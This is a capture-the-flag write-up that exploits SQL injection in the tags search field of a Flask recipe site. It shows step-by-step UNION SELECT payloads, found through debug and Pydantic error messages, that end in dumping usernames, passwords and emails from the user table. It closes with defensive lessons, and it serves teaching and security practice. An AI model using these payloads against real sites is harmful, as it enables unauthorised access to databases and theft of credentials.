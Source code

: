 # Cooking Flask

## Challenge Description

```
I threw together my own website! It's halfway done. 
Right now, you can search for recipes and stuff. 
I don't know a ton about coding and DBs, 
but I think I know enough so that no one can steal my admin password... 
I do know a lot about cooking though. 
All this food is going to make me burp. Sweet, well good luck
```

## Reconnaissance

### Endpoint Analysis
- `/` - Redirects to /search
- `/search` - Recipe search page (functional)
- `/try_recipes` - Error page (unfinished)
- `/create_recipe` - Error page (unfinished) 
- `/me` - Error page (unfinished)

The challenge description mentions it's a halfway done website, confirming that several endpoints are incomplete.

### Initial Testing
Injecting `"'.` into search fields triggers debug mode with `sqlite3.OperationalError`, indicating potential SQL injection vulnerability.

## Vulnerability Analysis

### Field Testing
Testing each input field with `"'.` payload:
- `recipe_name` field: No error - passes to server normally
- `description` field: No error - passes to server normally  
- `tags` field: **SQL injection vulnerable** - triggers debug mode

### Error Analysis
Debug output shows:
```python
cursor.execute(query, params)
```
This indicates user input is directly concatenated into SQL query string before parameterization, making SQL injection possible.

### Query Structure Discovery
Based on `unrecognized token` error in debug mode, the vulnerable query structure appears to be:
```sql
SELECT something FROM something WHERE ('%" + tags_input + "%') something;
```

When `"'.` is injected, it breaks the query syntax by prematurely closing the string.

## Exploitation Process

### Step 1: Query Structure Confirmation
**Payload:** `"%')--`
- **Result:** 200 OK (successful response)
- **Analysis:** Confirms the query structure and that SQL comment injection works

The resulting query becomes:
```sql
SELECT ... FROM ... WHERE ('%" "%')-- "%') ...;
```

### Step 2: UNION SELECT Column Count Discovery
Starting with basic UNION SELECT to extract table information:
```sql
UNION SELECT name FROM sqlite_master--
```

**Error:** `SELECTs to the left and right of UNION do not have the same number of result columns`

This indicates we need to match the column count of the original SELECT statement.

Incrementally testing column counts:
```sql
UNION SELECT name,'','','' FROM sqlite_master--  # 4 columns - still error
UNION SELECT name,'','','','','','','' FROM sqlite_master--  # 8 columns - different error
```

With 8 columns, we get a new error indicating successful column count match.

### Step 3: Data Type Validation
Using 8 columns with dummy values:
```sql
UNION SELECT name,'1','2','3','4','5','6','7' FROM sqlite_master--
```

**Pydantic Validation Error:**
```
ValidationError: 3 validation errors for Recipe
recipe_id: Input should be a valid integer [input_value='login_attempt']
date_created: Datetimes provided to dates should have zero time [input_value='2']
tags: Input should be a valid list [input_value=6]
```

This reveals the expected data types for the Recipe model:
- Column 1: integer (recipe_id)
- Column 3: date (date_created) 
- Column 7: list (tags)

### Step 4: Corrected Payload for Table Discovery
**Payload:**
```sql
UNION SELECT 0,name,'2025-05-20','3','4','5','[]','7' FROM sqlite_master--
```

**Result:** Successfully displays table names including `user` table.

### Step 5: Schema Discovery
To understand the structure of the `user` table:
```sql
UNION SELECT 0,sql,'2025-05-20',3,'4','5','[]',7 FROM sqlite_master WHERE type='table' AND name='user'--
```

**Result:** Returns the CREATE TABLE statement revealing columns:
- `username`
- `password`  
- `user_email`

### Step 6: Data Extraction
Final payload to extract user credentials:
```sql
UNION SELECT 0,username,'2025-05-20',3,password,user_email,'[]',7 FROM user--
```

**Result:** Successfully extracts username and password from the user table, revealing the flag in the password field.

## Complete Exploitation Chain

### Final Working Payload
```
"%') UNION SELECT 0,username,'2025-05-20',3,password,user_email,'[]',7 FROM user--
```

### URL Encoded Version
```
%22%25%27%29%20UNION%20SELECT%200%2Cusername%2C%272025-05-20%27%2C3%2Cpassword%2Cuser_email%2C%27%5B%5D%27%2C7%20FROM%20user--
```

## Key Takeaways

### Error-Based SQL Injection Techniques
1. **Debug Mode Exploitation:** Error messages provide valuable information about query structure and data types
2. **Pydantic Validation Errors:** Modern frameworks often reveal expected data types through validation errors
3. **SQLite System Tables:** `sqlite_master` table contains complete schema information

### Technical Insights
- **Column Count Discovery:** UNION SELECT requires exact column count matching
- **Data Type Compatibility:** SQLite is flexible with type conversion but framework validation may be strict  
- **Query Structure Analysis:** Error messages can reveal the exact SQL query construction
- **Comment Injection:** SQL comments (`--`) are crucial for bypassing remaining query parts

### Security Implications
- **Input Sanitization:** Direct string concatenation in SQL queries creates injection vulnerabilities
- **Debug Mode Exposure:** Debug information should never be exposed in production
- **Framework Validation:** While Pydantic validation helps, it doesn't prevent SQL injection if queries are constructed unsafely

This challenge demonstrates a classic SQL injection vulnerability combined with modern Python web framework error handling, showing how traditional attack techniques remain relevant in contemporary applications.
